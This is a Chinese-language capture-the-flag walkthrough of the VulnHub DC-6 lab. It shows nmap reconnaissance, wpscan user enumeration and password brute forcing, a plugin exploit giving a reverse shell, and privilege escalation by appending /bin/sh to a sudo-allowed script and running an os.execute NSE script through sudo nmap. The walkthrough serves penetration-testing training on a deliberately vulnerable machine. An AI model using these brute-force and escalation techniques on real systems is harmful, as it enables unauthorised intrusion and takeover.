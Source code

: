 ```yaml
---
# 这是页面的图标
icon: api
# 这是文章的标题
title: DC-6Walkthrough
# 设置作者
author: lhz
# 设置写作时间
time: 2021-10-05
# 一个页面只能有一个分类
category: 渗透
# 一个页面可以有多个标签
tag:
  - 渗透
  - vulnhub
  - DC6
comment: false

typora-root-url: ..\..\..\..\.vuepress\public


---
```


## 0x01 介绍

靶机地址：

> https://www.vulnhub.com/entry/dc-6,315/

**DESCRIPTION**

DC-6 is another purposely built vulnerable lab with the intent of gaining experience in the world of penetration testing.

This isn't an overly difficult challenge so should be great for beginners.

The ultimate goal of this challenge is to get root and to read the one and only flag.

Linux skills and familiarity with the Linux command line are a must, as is some experience with basic penetration testing tools.

For beginners, Google can be of great assistance, but you can always tweet me at @DCAU7 for assistance to get you going again. But take note: I won't give you the answer, instead, I'll give you an idea about how to move forward.

OK, this isn't really a clue as such, but more of some "we don't want to spend five years waiting for a certain process to finish" kind of advice for those who just want to get on with the job.

`cat /usr/share/wordlists/rockyou.txt | grep k01 > passwords.txt` That should save you a few years. ;-)

**NOTE: You WILL need to edit your hosts file on your pentesting device so that it reads something like:**

```
192.168.0.142 wordy
```

## 0x02 信息收集

扫描IP

```
nmap -sP 172.16.89.0/24
```

![image-20211005150145884](/assets/img/image-20211005150145884.png)

发现ip：172.16.89.7

进一步扫描

```
nmap -T5 -A -v -p- 172.16.89.7
```

结果

```
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-05 15:02 CST
NSE: Loaded 153 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 15:02
Completed NSE at 15:02, 0.00s elapsed
Initiating NSE at 15:02
Completed NSE at 15:02, 0.00s elapsed
Initiating NSE at 15:02
Completed NSE at 15:02, 0.00s elapsed
Initiating ARP Ping Scan at 15:02
Scanning 172.16.89.7 [1 port]
Completed ARP Ping Scan at 15:02, 0.02s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 15:02
Completed Parallel DNS resolution of 1 host. at 15:02, 0.00s elapsed
Initiating SYN Stealth Scan at 15:02
Scanning 172.16.89.7 [65535 ports]
Discovered open port 22/tcp on 172.16.89.7
Discovered open port 80/tcp on 172.16.89.7
Completed SYN Stealth Scan at 15:02, 5.10s elapsed (65535 total ports)
Initiating Service scan at 15:02
Scanning 2 services on 172.16.89.7
Completed Service scan at 15:02, 6.54s elapsed (2 services on 1 host)
Initiating OS detection (try #1) against 172.16.89.7
NSE: Script scanning 172.16.89.7.
Initiating NSE at 15:02
Completed NSE at 15:02, 0.65s elapsed
Initiating NSE at 15:02
Completed NSE at 15:02, 0.03s elapsed
Initiating NSE at 15:02
Completed NSE at 15:02, 0.00s elapsed
Nmap scan report for 172.16.89.7
Host is up (0.0010s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 3e:52:ce:ce:01:b6:94:eb:7b:03:7d:be:08:7f:5f:fd (RSA)
|   256 3c:83:65:71:dd:73:d7:23:f8:83:0d:e3:46:bc:b5:6f (ECDSA)
|_  256 41:89:9e:85:ae:30:5b:e0:8f:a4:68:71:06:b4:15:ee (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Did not follow redirect to http://wordy/
MAC Address: 00:0C:29:9F:2E:8D (VMware)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Uptime guess: 198.048 days (since Sun Mar 21 13:53:15 2021)
Network Distance: 1 hop
TCP Sequence Prediction: Difficulty=259 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   1.04 ms 172.16.89.7

NSE: Script Post-scanning.
Initiating NSE at 15:02
Completed NSE at 15:02, 0.00s elapsed
Initiating NSE at 15:02
Completed NSE at 15:02, 0.00s elapsed
Initiating NSE at 15:02
Completed NSE at 15:02, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.14 seconds
           Raw packets sent: 65558 (2.885MB) | Rcvd: 65550 (2.623MB)
```

修改host文件

```
echo "172.16.89.7 wordy" >> /etc/hosts
```

访问http://wordy，发现目标是wordpress搭建的网站

![image-20211005150502759](/assets/img/image-20211005150502759.png)

## 0x03 渗透

使用wps扫描网站用户

```
wpscan --url http://wordy --enumerate u
```

根据提示生成密码字典

```
cat /usr/share/wordlists/rockyou.txt | grep k01 > passwords.txt
```

使用wpscan爆破

```
wpscan --url http://wordy --passwords passwords.txt
```

爆破出一个账号：mark，密码：helpdesk01

![image-20211005162459020](/assets/img/image-20211005162459020.png)

使用爆破得到的账号登陆后，发现安装有Active Monitor插件

```
searchsploit Activity Monitor -w
```

发现存在漏洞

https://www.exploit-db.com/exploits/50110

下载利用，得到shell，在kali上回弹shell

![image-20211005162756068](/assets/img/image-20211005162756068.png)

升级shell

```
python -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```

翻一下/home，在mark下发现graham的密码

![image-20211005163415161](/assets/img/image-20211005163415161.png)

切换用户到graham，运行sudo -l

![image-20211005164152979](/assets/img/image-20211005164152979.png)

可以使用jens权限执行sh脚本，获得jens权限

```bash
echo "/bin/sh" >> /home/jens/backups.sh
sudo -u jens /home/jens/backups.sh
```

执行sudo -l

![image-20211005164709678](/assets/img/image-20211005164709678.png)

可以执行nmap，参考前面nmap越权方法

```bash
echo 'os.execute("/bin/sh")' > /tmp/root.nse
cat /tmp/root.nse
sudo nmap --script=/tmp/root.nse
```

![image-20211005164930280](/assets/img/image-20211005164930280.png)
